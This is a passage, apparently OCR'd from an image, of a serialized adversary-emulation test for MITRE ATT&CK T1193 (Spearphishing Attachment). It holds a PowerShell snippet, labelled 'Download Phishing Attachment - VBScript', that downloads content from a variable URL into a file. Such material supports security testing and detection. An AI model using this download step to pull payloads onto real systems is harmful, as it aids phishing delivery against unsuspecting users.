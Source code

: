 ```json
                                                                                                'File '
                                                                                                '-Force '
                                                                                                '-Path '
                                                                                                '$fileName '
                                                                                                '| '
                                                                                                'out-null\n'
                                                                                                '  '
                                                                                                '$wc '
                                                                                                '= '
                                                                                                'New-Object '
                                                                                                'System.Net.WebClient\n'
                                                                                                '  '
                                                                                                '$wc.Encoding '
                                                                                                '= '
                                                                                                '[System.Text.Encoding]::UTF8\n'
                                                                                                '  '
                                                                                                '[Net.ServicePointManager]::SecurityProtocol '
                                                                                                '= '
                                                                                                '[Net.SecurityProtocolType]::Tls12\n'
                                                                                                '  '
                                                                                                '($wc.DownloadString("$url")) '
                                                                                                '| '
                                                                                                'Out-File '
                                                                                                '$fileName\n'
                                                                                                '}\n',
                                                                                     'elevation_required': False,
                                                                                     'name': 'powershell'},
                                                                        'name': 'Download '
                                                                                'Phishing '
                                                                                'Attachment '
                                                                                '- '
                                                                                'VBScript',
                                                                        'supported_platforms': ['windows']}],
                                                      'attack_technique': 'T1193',
                                                      'display_name': 'Spearphishing '
```